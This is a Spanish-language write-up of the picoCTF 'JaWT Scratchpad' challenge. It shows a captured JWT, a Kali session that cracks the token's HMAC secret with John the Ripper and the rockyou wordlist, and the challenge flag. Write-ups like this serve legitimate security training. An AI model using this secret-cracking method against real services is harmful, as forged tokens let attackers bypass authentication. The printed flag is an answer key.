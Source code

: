 # JaWT Scratchpad

# Descripción
*Internal server errors can be intentionally returned by this challenge. If you experience one, try clearing your cookies.*

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or http://jupiter.challenges.picoctf.org:63090
# Pistas
What is that cookie?

Have you heard of JWT?
# Solución

```bash
TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiQWRhbCJ9.yjp3YDgSXk-cw4ct8gX2JawGUa_5qzi0XC_e3Wjh3Ws

┌──(kali㉿kali)-[~]
└─$ cd /usr/share/wordlists                                          
                                                                                                                                                                      
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ ls -la
total 52124
drwxr-xr-x   2 root root     4096 ene 31 18:40 .
drwxr-xr-x 345 root root    12288 mar  4 10:34 ..
lrwxrwxrwx   1 root root       26 ene 31 18:40 amass -> /usr/share/amass/wordlists
lrwxrwxrwx   1 root root       25 ene 31 18:40 dirb -> /usr/share/dirb/wordlists
lrwxrwxrwx   1 root root       30 ene 31 18:40 dirbuster -> /usr/share/dirbuster/wordlists
lrwxrwxrwx   1 root root       41 ene 31 18:40 fasttrack.txt -> /usr/share/set/src/fasttrack/wordlist.txt
lrwxrwxrwx   1 root root       45 ene 31 18:40 fern-wifi -> /usr/share/fern-wifi-cracker/extras/wordlists
lrwxrwxrwx   1 root root       28 ene 31 18:40 john.lst -> /usr/share/john/password.lst
lrwxrwxrwx   1 root root       27 ene 31 18:40 legion -> /usr/share/legion/wordlists
lrwxrwxrwx   1 root root       46 ene 31 18:40 metasploit -> /usr/share/metasploit-framework/data/wordlists
lrwxrwxrwx   1 root root       41 ene 31 18:40 nmap.lst -> /usr/share/nmap/nselib/data/passwords.lst
-rw-r--r--   1 root root 53357329 may 31  2022 rockyou.txt.gz
lrwxrwxrwx   1 root root       39 ene 31 18:40 sqlmap.txt -> /usr/share/sqlmap/data/txt/wordlist.txt
lrwxrwxrwx   1 root root       25 ene 31 18:40 wfuzz -> /usr/share/wfuzz/wordlist
lrwxrwxrwx   1 root root       37 ene 31 18:40 wifite.txt -> /usr/share/dict/wordlist-probable.txt

$ sudo gzip -d rockyou.txt.gz 

└─$ john token -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:10 DONE (2023-03-14 13:00) 0.09775g/s 722880p/s 722880c/s 722880C/s ilovepinky53..ilovepets0
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# Bandera
picoCTF{jawt_was_just_what_you_thought_f859ab2f}